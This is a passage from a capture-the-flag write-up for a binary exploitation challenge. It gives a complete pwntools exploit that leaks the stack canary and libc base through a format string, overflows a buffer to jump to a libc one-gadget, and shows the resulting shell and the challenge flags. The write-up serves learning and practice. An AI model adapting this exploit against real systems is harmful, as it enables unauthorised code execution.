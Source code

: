 The last gadget at `0x10afa9` has the trivial contraint of `[rsp+0x70] == NULL`,
which is easy enough to do as we control the stack.

## 4. Final exploit

With all the information mentioned above we can finally develop our exploit:

```python
#!/usr/bin/env python3
from pwn import *
import struct

# THIS_IS_TEST_FLAG | NOW_GET_VOLDEMORT
PASSWORD = 'CSCG{NOW_GET_VOLDEMORT}' # Set to flag from stage 2

LEAK_BASE_OFFSET = 0x271e3
MAGIC_OFFSET = 0x10afa9

# target = process('./pwn3/pwn3')
target = remote('hax1.allesctf.net', 9102)

target.sendline(PASSWORD)

# Canary + Libc address
target.sendline('%39$p %45$p')
leaked = target.recvline_contains('magic spell:')
canary = int(leaked.split(b' ')[0][2:], 16)
base = int(leaked.split(b' ')[1][2:], 16) - LEAK_BASE_OFFSET

log.info(f'Leaked canary: {hex(canary)}')
log.info(f'Leaked libc base address: {hex(base)}')
log.info(f'Target address: {hex(base + MAGIC_OFFSET)}')

target.sendline(b'Expelliarmus\0' +
	b'\0' * (cyclic_find(b'cnaa')) +
	struct.pack("<Q", canary) +
	b'x' * 8 +
	struct.pack("<Q", base + MAGIC_OFFSET) +
	b'\0' * 0x78)

target.interactive()
```

Running the exploit drops us into a shell:

```
$ ./solve_3.py
[+] Opening connection to hax1.allesctf.net on port 9102: Done
[*] Leaked canary: 0x915245c209272900
[*] Leaked libc base address: 0x7f7876ac1000
[*] Target address: 0x7f7876bcbfa9
[*] Switching to interactive mode
~ Protego!
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag
pwn3
ynetd
$ cat flag
CSCG{VOLDEMORT_DID_NOTHING_WRONG}$
```
